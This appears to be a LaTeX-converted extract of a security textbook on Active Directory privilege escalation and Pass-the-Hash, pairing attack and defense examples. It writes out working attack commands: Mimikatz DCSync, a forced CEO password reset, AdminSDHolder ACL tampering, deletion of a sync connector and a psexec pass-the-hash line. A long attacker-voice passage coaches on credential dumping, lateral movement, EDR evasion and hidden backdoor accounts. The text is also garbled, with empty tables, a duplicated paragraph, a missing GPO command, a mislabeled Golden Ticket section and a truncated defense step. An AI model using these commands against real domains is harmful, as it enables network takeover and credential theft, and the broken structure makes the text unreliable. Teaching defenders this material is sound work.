A shadow domain admin refers to a user account that possesses administrator-level privileges within a domain, but is not officially part of the designated domain administrator group. These accounts often go unnoticed by security teams because they don't appear in standard administrative listings, making them a potential security risk.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{T} \\
\hline

\end{tabular}

\end{table}

\textbf{Total Domain Persistence}

Total domain persistence refers to an attacker's ability to maintain long-term, uninterrupted control over a compromised network or domain, even in the face of detection and attempts to remove them.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{U} \\
\hline

\end{tabular}

\end{table}

\textbf{User and Entity Behavior Analytics (UEBA)}

User and Entity Behavior Analytics (UEBA) is a cybersecurity solution that uses machine learning and data analytics to detect suspicious activities by analyzing the behavior of users and other entities within an organization's network. By establishing baseline behaviors, UEBA identifies anomalies that may indicate security threats, such as insider threats or compromised accounts.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{V} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{W} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{X} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Y} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Z} \\
\hline

\end{tabular}

\end{table}

 

\textbf{Active Directory Privilege Escalation Attack }

\subsection{\textbf{Key Terminology}}

\textbf{Active Directory Schema:}

\textit{The Active Directory schema is a blueprint that defines the structure and rules for objects and their attributes within an Active Directory forest. It specifies what types of objects can be created (like users, computers, groups) and the properties (attributes) that each object can have. Essentially, it dictates how information is organized and stored in the Active Directory database.}

\textbf{Azure Active Directory (Azure AD):}

\textit{Azure Active Directory (Azure AD), now known as Microsoft Entra ID, is a cloud-based identity and access management service. It allows organizations to manage users, groups, and access to resources in the cloud and on-premises. Essentially, it acts as a directory service and an identity provider, enabling secure access to various Microsoft and third-party applications.}

\textbf{C-Suite:}

\textit{In cybersecurity, the "C-suite" refers to the highest level of executives within an organization, typically including positions like CEO, CFO, CIO, and CISO. These leaders play a crucial role in cybersecurity by setting the strategic direction, allocating resources, and ensuring that security is integrated into the overall business strategy. Their involvement is essential for establishing a strong security posture and mitigating risks.}

\textbf{DCSync:}

\textit{DCSync is a technique used in cybersecurity attacks to impersonate a Domain Controller (DC) and request replication data, including sensitive credentials, from other DCs in an Active Directory (AD) environment.}

\textbf{Domain Replication:}

\textit{Domain replication is the process of copying and synchronizing directory data across multiple domain controllers (or other servers) within a network. This ensures that all domain controllers have the same information, improving reliability, performance, and data consistency. Essentially, any changes made to the directory on one domain controller are automatically replicated to all others.}

\textbf{Group Policy Object (GPO):}

\textit{In Active Directory (AD), a Group Policy Object (GPO) is a virtual collection of settings that allows administrators to manage and configure user and computer settings within an AD environment. GPOs are fundamental for centrally controlling and standardizing settings across an organization's network, ensuring consistency and security.}

\textbf{Impersonation:}

\textit{In cybersecurity, impersonation refers to a malicious tactic where an attacker pretends to be a trusted individual, organization, or system to deceive a target into taking actions that benefit the attacker. This often involves social engineering to manipulate victims into revealing sensitive information, transferring funds, or granting access to systems.}

\textbf{Password Hashes:}

\textit{Password hashing is a security measure that converts passwords into irreversible, fixed-length strings of characters (hashes) using a one-way function. This prevents the storage of passwords in plain text, making them unreadable even if a database is compromised. Instead of storing the actual password, a system stores its hash, which can be compared to a user's input during login, ensuring authentication without exposing the original password.}

\textbf{Principle of Least Privilege (PoLP):}

\textit{PoLP stands for the Principle of Least Privilege. It's a cybersecurity concept that dictates users, applications, and systems should only have the minimum necessary access rights to perform their intended tasks. This approach minimizes the potential damage from compromised accounts and reduces the attack surface for malicious actors.}

\textbf{Role-based Access Control (RBAC):}

\textit{Role-Based Access Control (RBAC) is a security approach that restricts system access based on a user's role within an organization. Instead of granting permissions directly to users, RBAC assigns permissions to roles, and then users are assigned to those roles. This helps manage access effectively and ensures users only have the resources they need.}

\textbf{Security Event and Information Management (SIEM):}

\textit{SIEM, which stands for Security Information and Event Management, is a cybersecurity solution that aggregates and analyzes security data from various sources within an IT environment. It helps organizations detect, investigate, and respond to security threats in real-time. Essentially, SIEM systems collect logs and event data, correlate that information, and provide a centralized view of security incidents, enabling faster and more effective threat detection and response.}

\subsection{Introduction}

\subsubsection{\textit{The Quiet Power at the Core of Enterprise}}

Today, the security of any large organization depends on the hidden architecture that determines who can access what, when, and how. At the center of this architecture is Active Directory (AD)—the system that orchestrates user identities, computer accounts, and access permissions across nearly every Windows-based network on the planet. While defenders spend countless hours crafting security strategies, the uncomfortable truth is that most of these plans remain untested; after all, few teams find the time for full-scale tabletop exercises or real-world simulations. But in reality, defenders should prioritize regular walkthroughs of their incident response playbooks, runbooks, and policies, so that when an attack does occur, the team is equipped to respond effectively and decisively. While conventional strategies often prioritize endpoint defense, sensitive data protection, or malware detection, the real backbone of enterprise security lies in rigorously managing access controls and permissions within Active Directory.

Yet, a few realize just how devastating it can be when attackers exploit weaknesses in ADs privilege assignments. A single act of privilege escalation in Active Directory can transform a minor breach into a catastrophic incident - giving an adversary the power to bypass security controls, impersonate critical users, disrupt essential services, and seize control of the organization’s most valuable resources within minutes.

Surprisingly, few appreciate how catastrophic it can be when attackers find and exploit weaknesses in AD’s privilege assignments. A single privilege escalation event in Active Directory can escalate a minor incident into a full-blown crisis, granting adversaries the ability to sidestep security controls, impersonate key personnel, disrupt critical services, and seize the organization’s crown jewels in mere minutes. Grasping how privilege escalation works in Active Directory—and why it’s such a serious threat—isn’t just a technical checkbox; it’s essential to organizational survival.

Understanding exactly how privilege escalation happens in Active Directory, and why it poses such a critical threat, is not only a technical necessity but also a matter of business survival.

In the following section, we’ll break down the powerful actions available to attackers after they gain elevated privileges in AD, examine the far-reaching impact of those actions, and show why defenders who overlook administrative access tracking are at risk of catastrophic consequences. Each scenario will include practical code samples and defensive tactics to equip learners and practitioners with real-world, actionable knowledge.

\subsection{\textbf{Active Directory: The Nerve Center of Enterprise Security}}

Within any modern enterprise, Active Directory (AD) serves as the backbone for identity, access, and privilege management across entire IT ecosystems. Because so many critical resources and workflows depend on AD, any successful privilege escalation within it can have consequences that are both immediate and severe. Attackers who manage to escalate their privileges in Active Directory gain the ability to perform actions that fundamentally compromise the security, confidentiality, and availability of an organization’s assets.

\subsection{\textbf{Privilege Escalation in AD: The Gateway to Total Compromise}}

\subsubsection{Attack Tactic}

The seriousness of privilege escalation in AD becomes apparent when considering the range of devastating tasks an attacker can perform. Suppose an attacker fired up their copy of Mimikatz and launched a \textit{DCSync }to a target’s AD domain controllers, that attacker can very well simulate the behavior of a legitimate domain controller and extract password hashes for all domain users, including privileged accounts. Using Mimikatz, attackers can launch a DCSync against target DCs by running:

```

\begin{table}
\centering

\begin{tabular}{l}
lsadump::dcsync /domain:corp.local /user:Administrator \\

\end{tabular}

\end{table}

```

\begin{table}
\centering

\begin{tabular}{l l}
\hline
   \& \textbf{NOTE:}\textit{This Mimikatz command retrieves the NTLM hash for the domain’s Administrator account which can be used for Pass-the-Hash (PtH) attacks or to forge Kerberos service tickets.} \\
\hline

\end{tabular}

\end{table}

\subsubsection{Defense Tactic}

To detect DCSync attempts, configure your \textit{Security Information and Event Management (SIEM)} to alert on Event ID 4662 for directory replication operations. Below, a PowerShell command defenders can use to monitor for incoming or ongoing attacks:

\texttt{Get-WinEvent -LogName Security | Where-Object \{ \$\_.Id -eq 4662 -and \$\_.Properties -match "Replicating Directory Changes" \}}

\textbf{NOTE:}\textit{This command scans the Windows Security event log for potential DCSync activities.}\subsection{High-Impact Actions Enabled by Privilege Escalation}

{High-Impact Actions Enabled by Privilege Escalation}

Resetting the password of any privileged user—such as members of the \textit{C-suite} or IT administrators—enables attackers to log in directly as those individuals, accessing confidential information, email, and protected systems.

\subsubsection{Attack Tactic}
\texttt{Set-ADAccountPassword -Identity "ceoUser" -NewPassword (ConvertTo-SecureString "NewP@ssw0rd!" -AsPlainText -Force) -Reset}

NOTE:\textit{This PowerShell command resets the password of the CEOs account, allowing the attacker to impersonate them.}

\subsubsection{Defense Tactic}
Below is another PowerShell command that can be used by defenders to audit event logs, looking and combing through them for any suspicious log entries:

\texttt{Get-EventLog -LogName Security -InstanceId 4724}

\texttt{\textbf{NOTE:}\textit{The PowerShell command above checks for “An attempt was made to reset an account’s password” events, critical for incident response.}}

\subsection{Beyond Users and Groups: Exploiting Trusts, Schema, and Policies}

Attackers with escalated privileges can modify trust relationships or change the \textit{Active Directory schema}, both of which have domain-wide impact. Manipulating \textit{Group Policy Objects (GPOs)} can allow mass malware deployment or total administrative workstation takeover.

Below is an attack example of a GPO (Group Policy Object) hijacking attack.

\subsubsection{Attack Tactic}


\begin{table}
\centering

\begin{tabular}{l}
\\

\end{tabular}

\end{table}

```

\begin{table}
\centering

\begin{tabular}{l l}
\hline
   & \textbf{NOTE:}\textit{The command above attaches a malicious Group Policy Object (GPO) to the Admins Organizational Unit (OU), allowing the attacker-crafted policies to be pushed out to all administrative computers within the domain. To speed up the attack and to avoid having to wait the default 90-minute domain replication (}\textit{domrepl}\textit{) delay, the attacker then runs the }\textit{gpupdate }\textit{/force}\textit{ command from the Windows command-line interface (CLI), immediately triggering group policy updates to the targeted administrative machines. This ensures that the malicious changes take effect right away, significantly reducing the time needed to compromise the environment.} \\
\hline

\end{tabular}

\end{table}

\subsubsection{Defense Tactic}

Restrict GPO management privileges and audit GPO links for unauthorized changes. Below is a PowerShell example that defenders can use to audit GPO changes.

```

\begin{table}
\centering

\begin{tabular}{l}
Get-GPO -All | ForEach-Object \{ Get-GPInheritance -Target \$\_.DisplayName \} \\

\end{tabular}

\end{table}

```

\begin{table}
\centering

\begin{tabular}{l l}
\hline
   & \textbf{NOTE:}\textit{This command lists GPO inheritance and links, helping administrators and defenders detect suspicious changes within the domain structure.} \\
\hline

\end{tabular}

\end{table}

\subsection{Delegated Administration: The Hidden Danger}

\textit{Delegation} in AD allows granular assignment of admin tasks but, if misconfigured, can silently introduce major risk. Attackers who gain control over delegated permissions (such as \textit{AdminSDHolder}) can perpetuate their access indefinitely.

\subsubsection{Attack Tactic (AdminSDHolder ACL Manipulation)}

```

\begin{table}
\centering

\begin{tabular}{l}
\$acl = Get-Acl "AD:\textbackslash{}CN=AdminSDHolder,CN=System,DC=corp,DC=local"\# Attacker modifies the \$acl to include their SID, then:Set-Acl -Path "AD:\textbackslash{}CN=AdminSDHolder,CN=System,DC=corp,DC=local" -AclObject \$acl \\

\end{tabular}

\end{table}

```

\begin{table}
\centering

\begin{tabular}{l l}
\hline
   & \textbf{NOTE:}\textit{This code gives persistent privileged access by updating protected groups’ permissions.} \\
\hline

\end{tabular}

\end{table}

\subsubsection{Defense Tactic}

Regularly audit AdminSDHolder ACLs and alert on any changes.

\textbf{PowerShell Example:}

```

\begin{table}
\centering

\begin{tabular}{l}
(Get-Acl "AD:\textbackslash{}CN=AdminSDHolder,CN=System,DC=corp,DC=local").Access | Format-List \\

\end{tabular}

\end{table}

```

\begin{table}
\centering

\begin{tabular}{l l}
\hline
   & \textbf{NOTE:}\textit{Use the code above to verify only authorized accounts have permissions on AdminSDHolder.} \\
\hline

\end{tabular}

\end{table}

\subsection{Denial of Service (DoS) and Service Disruption}

With domain-level privileges, attackers can launch \textit{denial of service} attacks on AD-integrated services, such as \textit{Azure AD Connect}, by modifying or deleting critical configuration.

Attack Tactic

```

Remove-ADSyncConnector -Name "AzureADConnector"

```

\begin{table}
\centering

\begin{tabular}{l l}
\hline
   & \textbf{NOTE:}\textit{This command would disrupt cloud synchronization, cutting off hybrid identity services.} \\
\hline

\end{tabular}

\end{table}

\subsubsection{Defense Tactic}

To safeguard critical directory integration points - such as synchronization connectors for Azure

\subsection{Conclusion: Securing the Core}

Privilege escalation in Active Directory can be catastrophic if left unchecked. Through real attack and defense examples, it is clear that every aspect of AD—from account management to schema and GPO control—must be tightly monitored, regularly audited, and limited to only those who absolutely need it. By understanding both the methods attackers use and the defensive tools available, defenders and security professionals can take informed, practical steps to secure their foundational directory services—and, by extension, the entire enterprise.

 

\textbf{Golden Ticket Attacks}

\textit{Owning the Kingdom by Forging the King’s Signature}

Section 1: Attacker’s View

\section{\textbf{Understanding Golden Ticket Attacks}}

\begin{table}
\justifying

\begin{tabular}{| l | l |}
\hline
\textbf{What It Is in Shortform:} & \textbf{Tools Used:} \\
\hline
\textit{Golden Ticket attacks use a forged Kerberos Ticket Granting Ticket (TGT) to gain unrestricted access or resources within an Active Directory domain.} &  \\
\hline

\end{tabular}

\end{table}

\subsection{\textbf{Pass-the-Hash (PTH): How to Own a Network Without Cracking a Thing}}

\textit{\textbf{Shortform: }}\textit{Reuse of stolen NTLM hashes to authenticate as a user without knowing their password.}

\textbf{The Philosophy of Hashes Over Passwords}

If you’re still chasing passwords, you’re thinking too small. Plaintext is flashy, sure. It looks good in a screenshot. But in the real game—the one played in enterprise networks under pressure and time constraints—\textbf{hashes are enough}. They’re keys. Tokens. Signatures of trust. And if you know how to use them, you can walk straight through a locked door and no one will stop you.

Pass-the-Hash isn’t about breaking encryption. It’s about using the system exactly how it was built, just with someone else’s credentials. It works because NTLM, the authentication protocol baked into Windows for decades, doesn’t actually care whether you typed a password or just showed up with a valid hash. As long as the signature checks out, the handshake completes. You're in.

And here’s the kicker: Windows stores these hashes \textbf{everywhere}. In memory. On disk. In LSASS. In SAM files. In registry hives. Every time someone logs in, their credential material sits in memory like a gift. Doesn’t matter if they’re local admin, domain admin, or just a regular user. Once you get on the box, you can pull it. No cracking needed. No guessing games. Just dump it and use it.

So you compromise one system—maybe through phishing, a vulnerability, or a poisoned LLMNR request. Whatever. The point is, you land on a box. First thing you do? Dump credentials. Use Mimikatz, grab the NTLM hashes, sort them by privilege level. Who’s logged in? What group are they in? What else do they have access to? Doesn’t matter if you can’t see their password. You’ve got their hash. You’ve got access.

That’s the power shift most defenders still don’t understand. They think passwords are the secret. They forget that in NTLM auth, the \textbf{hash is the password}. If I’ve got that, I don’t need to brute-force anything. I can just inject it into a session and pretend to be you.

\textbf{Gaining the First Hash and Moving Fast}

When you pop your first machine, everything slows down. You stop rushing. You take inventory. Because this is the turning point. That one system—the receptionist’s laptop, the domain-joined developer’s box, the exposed RDP server—might just be the path to everything. What matters isn’t the machine. It’s who touched it. What accounts cached there. What hashes still live in memory.

Your first step is \textbf{LSASS dump}. If you have local admin, it’s easy. Use Mimikatz, Procdump, or a forked variant to avoid EDR triggers. Dump LSASS to disk or memory. Extract the NTLM hashes. If you're lucky, you’ll catch a domain admin who logged in six hours ago. If not, no problem. Regular users still have access elsewhere. It’s a foot in the door.

You’re not stopping with one box. PtH is about \textbf{lateral movement}. You take that hash and use it to authenticate to other machines. SMB, WinRM, WMI—whatever’s open. Pass-the-Hash works across all of them. You run a tool like psexec, wmiexec, or Impacket’s smbexec with the hash. You’re not guessing credentials. You’re showing up at the door with the right badge.

And it works. As long as the machine doesn’t enforce strict authentication policies—like blocking NTLM or requiring Kerberos with smartcards—you’re in. The system sees a valid hash, it validates it against its local or domain records, and you’re granted a shell. Now you own two boxes.

From there, it’s recursive. Dump the second system. Gather more hashes. Check which ones are new. Which are reused. You’re building a graph—who logs into what, what paths overlap, where the hashes repeat. Lateral movement becomes exponential. Every machine you hit expands your reach. Every hash you capture opens a new door.

You don’t even need internet access. This is all internal, living off the LAN. You’re not beaconing out. You’re not downloading malware. You’re just using credentials that already exist, with tools already on the system. That’s what makes PtH so devastating—it’s not just an attack. It’s an abuse of default behavior.

So, now we go deeper. You’ve landed, dumped hashes, and moved laterally - but the real win comes when you start mapping \textbf{hash reuse}, identifying privilege boundaries, and climbing up the admin ladder without ever cracking a single password.

\textbf{Hash Reuse and Real-World Privilege Escalation}

The real beauty of Pass-the-Hash isn’t in how you start. It’s in how you \textbf{scale}. Networks aren't built to prevent lateral movement—they're built for functionality, for convenience. And that means hash reuse is everywhere. Once you understand how admins work—how helpdesk accounts touch 200 boxes a day, how sysadmins RDP from one DC to another—you realize something: their credentials are sprayed across the whole damn network.

So what do you do with a regular user's hash? You test access. Use it to scan for SMB shares. Try it on RDP. Use Impacket’s smbclient.py or psexec.py to reach out to a few machines. Nine times out of ten, they won’t get you much. But if that same hash works on five other workstations, now you’ve got five more LSASS dumps coming your way. Five new attack surfaces. Five new chances at catching a higher-privilege token.

Eventually, you hit a jackpot. Maybe a local admin account is reused across a department. That’s your pivot. You move laterally to every machine using that account. It doesn’t matter if it's disabled for logon or if the password is 20 characters of randomized nonsense. You don’t need to log in with it—you just need to pass the hash.

And here’s where defenders screw up: they assume that just because an account has a strong password policy, it's secure. Wrong. PtH doesn't care how complex your password is if the hash has already been cached on a box. A 64-character passphrase and a 10-character default are \textbf{equally exploitable} once the hash is in memory. Complexity doesn’t stop lateral movement. Isolation does.

Eventually, you’re in the server segment. Maybe you compromise a box running backup software. Maybe it's a jump host. Maybe it's just a dusty file server that happens to have Domain Admin credentials stored in memory. Once you’ve got \textbf{a DA hash}, the game changes. You can touch every system in the domain. Not because you guessed the right password—but because you have the right \textbf{token}.

You don’t need to move fast. You move smart. Use secretsdump.py to extract credentials from the DC. Use dcsync with Mimikatz and replicate every user hash in the domain. You now have \textbf{every} password hash in the network. You don’t need to guess. You don’t need to ask. You own the authentication process itself.

And here’s what’s wild—PtH attacks don’t trigger alerts in most environments. Because the system sees a valid NTLM challenge response. There’s no brute-force. No failed logons. Just successful authentication using credentials that, as far as Active Directory knows, are legitimate. That’s the whole scam. You’re not breaking rules. You’re using the rules \textbf{exactly as designed}.

You’ve got domain-level access now, but a smart attacker doesn’t stop at domination - they build \textbf{persistence}, abuse trust relationships in AD, and embed themselves so deeply that even reimaging systems won’t fully shake them. This is where \textbf{Pass-the-Hash turns into full-spectrum control.}

\textbf{From Persistence to Full Domain Control}

Once you hold a Domain Admin hash, you're not an intruder anymore—you’re effectively IT. You can do anything: read group policy, push your own, reset passwords, create accounts, replicate data. But smart operators don’t scream. They whisper. You’re not here to lock accounts or deface the intranet. You’re here to build \textbf{invisible ownership}.

First move: extract every hash in the domain using secretsdump.py or a dcsync call via Mimikatz. With the right privileges, you don’t need to compromise every machine—just the \textbf{domain controller}. DCSync gives you the NTLM hashes of every user, including krbtgt—the Kerberos \textit{Ticket Granting Ticket (TGT)} key. That key is your skeleton key. With it, you can forge golden tickets that give you \textbf{indefinite, unkillable access}.

Think about that. You're not using stolen sessions. You're \textbf{minting your own}—admin-level Kerberos tickets that look real, last forever, and don’t require touching the victim’s credentials again. Golden tickets are the ultimate abuse of trust in AD, and Pass-the-Hash is what got you there. No cracking. No phishing. Just native protocol abuse and reused credential material.

But you're not stopping there. Next step? Backdoors that don’t get noticed. You create new users—maybe a low-privilege account with a clever name: “svc\_netmon” or “audit\_reader”—something that won’t raise flags in a crowded directory. Then you give it \textbf{delegated rights}. Add it to Domain Admins temporarily, do your damage, then remove it from the group. The audit trail looks clean to anyone who isn’t watching closely.

You can also \textbf{implant hashes directly}. Using Mimikatz's pass-the-hash features, or tools like pth-winexe, you can initiate connections and impersonate accounts without ever storing a credential. That means you’re not dropping artifacts on disk. You’re not adding persistent binaries. You’re just living in memory and using the environment against itself.

Smart attackers automate this. They build scripts to crawl the environment, test every hash against every host, and map out the privilege boundaries silently. They don't guess. They \textbf{query Active Directory}—because once you’re authenticated, AD will happily tell you who has access to what. You’re using legitimate tools. Legitimate access. That’s what makes this dangerous. Most SOCs won’t even know where to look.

And if the blue team resets passwords? Doesn’t matter if you already pulled the krbtgt hash. You can mint golden tickets for \textbf{years} unless they reset that account twice, properly, and lock it down afterward. That one credential—the domain's crown jewel—lets you generate administrative access at will. It’s not a backdoor. It’s a master key.

At this point, you’re not just inside the network. You’re beneath it. You’re in the bloodstream. And unless someone pulls the whole system apart, root and stem, you're not going anywhere.

\subsubsection{\textbf{   Tools}}

\begin{itemize}
    \item Mimikatz

    \item Impacket (psexec.py, wmiexec.py)

    \item CrackMapExec

\end{itemize}

\subsubsection{\textbf{  Attack Code}}

psexec.py -hashes :aad3b435b51404eeaad3b435b51404ee:cc36cf7a8514893efccd332446158b1a Administrator@192.168.1.5

\subsubsection{\textbf{  Defense}}

\textbf{Pass-the-Hash: What It Looks Like When You Lose to Trust}

\textbf{The Attack That Shouldn’t Work - But Still Does}

Let’s start with the uncomfortable truth: Pass-the-Hash attacks are still winning because most networks are built to trust too much. PtH is not some novel zero-day. It’s not exotic. It’s been around since the early 2000s—and it’s still here because the architecture it abuses hasn’t fundamentally changed. If your systems store reusable authentication material in memory, and if that material can be passed without cracking, attackers will exploit it. End of story.

You can install an EDR, run weekly vulnerability scans, mandate complex passwords—and none of that will stop PtH. Because PtH doesn’t break your passwords. It doesn’t break your encryption. It doesn’t trigger alarms unless you’re watching for the exact right behavior. It walks through the front door with credentials your system believes are real. And the terrifying part? From the system’s point of view, they \textbf{are} real.

That’s the first defensive failure: treating credentials as secrets instead of \textbf{keys}. Secrets are meant to be hidden. Keys are meant to be presented and accepted. In Windows authentication, the NTLM hash acts as both. Once an attacker steals it—even if they never see the actual password—they own the ability to impersonate that user anywhere NTLM authentication is allowed. And in most orgs, that’s everywhere.

It doesn’t matter how complex the original password is. The hash is deterministic. Same password, same hash. You can’t change that. And once a user logs into a machine, their hash sits in memory—especially if they have admin rights. LSASS will hold it. Mimikatz or any number of modern forks will pull it. You can put all the antivirus in the world on that box. If it doesn't prevent LSASS dumping, you lose.

Worse, defenders are still thinking in silos. They monitor perimeter threats, phishing emails, malware payloads—but they don’t monitor \textbf{token abuse}, \textbf{lateral authentication}, or \textbf{reused hashes moving from host to host}. They miss the PtH attack because it doesn’t come wrapped in a flashy exploit. It doesn’t upload files. It doesn’t beacon out. It uses built-in tools to move silently inside the network.

That’s what makes it deadly. It’s invisible to tools that only look for malware. PtH is malware-agnostic. It's protocol abuse. It's architectural betrayal. And unless you're watching authentication logs like a hawk—and correlating login behavior across systems—you won’t catch it. By the time you realize someone’s moving laterally, it’s already too late.

So if you’re serious about defending against PtH, you have to shift your mindset. You’re not defending against "hackers." You’re defending against \textbf{your own system’s default behavior} being used against you. Your own trust model is the attack surface. And the only way you fight that is by changing what you trust, how you store it, and where it’s allowed to go.

\textbf{Why Complex Passwords Won’t Save You}

Ask most security teams how they’re defending against credential theft, and you’ll hear the same broken response: “We enforce strong passwords.” Minimum length. Special characters. Regular resets. The usual checklist theater. And while password strength is important for resisting online brute-force attacks, it does \textbf{nothing} to stop Pass-the-Hash. Why? Because once that hash is in memory, it's a reusable \textbf{access token}, not a secret.

Let’s be crystal clear: Pass-the-Hash doesn't guess the password. It doesn't care what the password is. It doesn't need to know it. All it needs is the \textbf{hash}, and that hash is generated \textbf{predictably and identically} every time the user logs in with the same password. So even if a password is 30 characters long and randomly generated, the resulting NTLM hash is still a static value. If that hash gets pulled from LSASS, it can be used over and over again.

This is where defenders start falling behind. They focus on complexity when they should be focused on \textbf{hash exposure}. The problem isn’t that your passwords are guessable. The problem is that they’re \textbf{sitting in memory}, on every machine a user logs into, waiting to be stolen by anyone with local admin rights. This is privilege escalation by design, not accident.

And guess what? Those long, complex passwords you’re forcing users to memorize? They’re encouraging \textbf{password reuse}. That sysadmin who has to jump between 200 servers a week? He’s going to reuse the same password across every endpoint. Which means that same NTLM hash is sitting in memory across hundreds of systems. Compromise one, and an attacker now owns them all. That’s not a password policy win. That’s a lateral movement pipeline.

Here’s what defenders get wrong: they assume strong passwords equal strong identity. They think difficulty to guess equals difficulty to abuse. But in the world of token replay attacks like PtH, the attack doesn’t care how hard it was to \textbf{create} the hash. It only cares that the hash is \textbf{valid}. And as long as the system accepts it, the attacker walks right through.

If you want to defend against PtH, you have to \textbf{kill the idea of static secrets} living in memory. Start by reducing where hashes are stored. Don’t let privileged accounts log in to workstations. Don’t let regular users have local admin rights. Don’t cache credentials unless absolutely necessary. Don’t allow shared accounts. Every one of those behaviors multiplies hash exposure—and gives attackers more chances to steal and replay tokens.

You also need to start inspecting authentication logs for patterns that passwords alone won’t protect you from. Look for lateral authentication from unexpected sources. Look for service accounts authenticating from workstations. Look for interactive logons using hashes instead of Kerberos tickets. These are the fingerprints of token abuse—and no password complexity policy in the world will stop them.

Password strength is not protection against memory scraping, token replay, or native protocol abuse. It might slow down an attacker who’s guessing from the outside—but once they’re inside, all it does is give you a false sense of security.

\textbf{Why EDRs Often Miss PtH}

If you’ve got EDR in your environment, good. But don’t get cocky. PtH attacks aren’t just surviving modern detection—they’re slipping under it, because they aren’t doing anything most tools were trained to stop. And that’s the flaw: too many defenders rely on EDRs to catch everything, without understanding what those tools actually see—and what they \textbf{don’t}.

EDRs are great at catching \textbf{payloads}. They detect malware. They log behavioral anomalies. They catch PowerShell abuse, fileless attacks, rogue binaries, and persistence implants. But PtH doesn’t need any of that. It doesn’t download malware. It doesn’t spawn unusual processes. It doesn’t write to disk. It uses \textbf{native Windows authentication protocols}—SMB, WinRM, WMI—and logs in with credentials your system thinks are valid.

That’s the core reason most EDRs miss it. There’s no binary. No shellcode. No exploit. Just an authentication request that looks exactly like a normal user trying to access another host. The attacker might be using psexec, smbexec, wmiexec, or Impacket tools to trigger the connection—but as long as the hash is valid, the system allows the handshake. The EDR sees an authenticated session and doesn’t blink.

Even more problematic: most EDRs don’t correlate behavior \textbf{across systems}. So if an attacker uses a captured hash on one box to access five others in sequence, and dumps LSASS on each one using native tools or memory-safe methods, the alerts don’t connect. You might get an LSASS dump flag. Maybe. But you won’t see the \textbf{lateral movement pattern} unless you're correlating it manually or using a SIEM with serious cross-host visibility.

Some attackers bypass detection completely by \textbf{injecting hashes directly into memory} instead of calling psexec or dropping tools. Mimikatz allows this. You can take a captured hash, load it into the current session, and use that session to interact with remote systems. It’s not a new process. It’s not a new user. It’s the same session—but now it’s authenticated as someone else. Good luck detecting that without deep behavioral baselining.

Here’s the uncomfortable part: most blue teams treat EDR alerts as gospel. If it didn’t trigger an alert, they assume the system’s clean. That mindset is poison. EDR isn’t a guarantee—it’s a camera pointed at the road. If the attacker drives on the shoulder, the camera doesn’t catch them. And PtH is all about the shoulder. It operates in the shadows, just outside the detection box.

Want to detect PtH? Don’t wait for flashy alerts. Watch for \textbf{subtle behavior drift}. SMB sessions from unexpected sources. Logon types that don’t match expected patterns. Accounts authenticating to machines they don’t normally touch. Interactive logons using NTLM instead of Kerberos. These are the signals. But most EDRs aren’t tuned for them. You have to \textbf{ask the right questions}, or you’ll miss everything.

EDRs are part of the equation, but they aren’t a silver bullet. You don’t stop Pass-the-Hash with antivirus logic. You stop it by \textbf{understanding how authentication works}, where tokens are stored, and how attackers abuse those mechanics without breaking anything. That’s the kind of visibility no boxed product gives you out of the gate.

\subsection{\textbf{Glossary}}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{A} \\
\hline

\end{tabular}

\end{table}

\textbf{Assume Breach}

"Assume breach" is a security principle and a mindset that dictates that a security system should be designed and operated under the assumption that a breach has already occurred or will inevitably occur. It emphasizes proactive measures to detect, respond to, and mitigate the impact of breaches rather than solely focusing on preventing them. This approach is a core component of Zero Trust Architecture, which aims to minimize the impact of potential breaches by limiting access and trust within the network.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{B} \\
\hline

\end{tabular}

\end{table}

\textbf{Backdoor}

A backdoor is a secret method of bypassing normal authentication or security measures to gain access to a computer system, network, or application. It's like a hidden entrance that allows attackers to bypass security controls and maintain persistent access.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{C} \\
\hline

\end{tabular}

\end{table}

\textbf{Canary Tokens}

Canary tokens are digital tripwires used in cybersecurity to detect unauthorized access to sensitive data or systems. They are essentially decoy files, URLs, or API keys strategically placed within a network or application, designed to trigger an alert when accessed by an attacker or malicious actor. This early warning system helps defenders identify potential breaches and respond quickly.

\textbf{Credential Hygiene}

Credential hygiene refers to the practices and processes involved in managing and protecting authentication credentials like passwords, tokens, and keys. It's crucial for maintaining security across various systems and applications, particularly in CI/CD pipelines and SaaS environments. Effective credential hygiene minimizes the risk of unauthorized access, data breaches, and other security incidents.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{D} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{E} \\
\hline

\end{tabular}

\end{table}

\textbf{External Trust}

An external trust in Active Directory is a trust relationship established between two domains in different forests. It allows users in one domain to access resources in the other domain, even though the domains are not part of the same forest. This type of trust is often used when there is a need for resource sharing between organizations with separate Active Directory environments.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{F} \\
\hline

\end{tabular}

\end{table}

\textbf{Forest Trust}

Forest trusts in Active Directory are a type of trust relationship established between the root domains of two separate Active Directory forests. They allow users and resources in one forest to be accessed by users in the other forest, effectively creating a bridge between the two separate domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{G} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{H} \\
\hline

\end{tabular}

\end{table}

\textbf{HONEYTOKENS}

Honeytokens are decoy elements, like fake data or credentials, strategically placed within a system to detect unauthorized access and malicious activity. They act as tripwires, triggering alerts when accessed by attackers, thus revealing their presence and methods. Unlike honeypots, which are entire systems, honeytokens are small, discrete components designed to be part of real systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{I} \\
\hline

\end{tabular}

\end{table}

\textbf{Interdomain}

Interdomain refers to something existing or occurring between two or more domains. In networking, it specifically relates to routing traffic between different autonomous systems (AS). It can also refer to courses that integrate knowledge from two different domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{J} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{K} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{L} \\
\hline

\end{tabular}

\end{table}

